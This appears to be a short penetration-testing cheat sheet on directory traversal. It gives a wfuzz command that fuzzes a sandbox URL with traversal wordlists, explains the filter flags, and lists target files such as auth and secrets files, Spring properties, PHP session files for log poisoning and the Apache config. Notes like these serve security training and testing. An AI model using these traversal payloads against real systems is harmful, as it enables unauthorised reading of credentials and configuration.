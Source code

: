 ```yaml
---
title: Useful Payloads
layout: default
parent: Directory Traversal
has_children: false
nav_order: 1
---
```


1\. To use `wfuzz` to fuzz for possible directory traversal (in example below, hide 404, hide 81 to 125 characters):\
Alternative wordlist to try:\
`/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt`\
`/usr/share/seclists/Fuzzing/LFI/LFI-linux-and-windows_by-1N3@CrowdShield.txt`

`wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404 --hh 81,125 http://dirTravSandbox/relativePathing.php?path=../../../../../../../../../../../../FUZZ`

```
--hs/ss "regex" #Hide/Show
#Simple example, match a string: "Invalid username"
#Regex example: "Invalid *"

--hc/sc CODE #Hide/Show by code in response
--hl/sl NUM #Hide/Show by number of lines in response
--hw/sw NUM #Hide/Show by number of words in response
--hh/sh NUM #Hide/Show by number of chars in response
--hc/sc NUM #Hide/Show by response code
```

2\. Interesting files to look at:
```
/.storage/auth
secrets.yaml
```

3\. Spring configuration files:
```
/config/application.properties
application.properties
```

4. PHP Session file for potential log poisoning:\
`/var/lib/php/sessions/sess_<snip>` , with `<snip>` being the current PHPSESSID cookie value.

5. Apache conf file to find out web root:\
`/etc/apache2/httpd.conf`
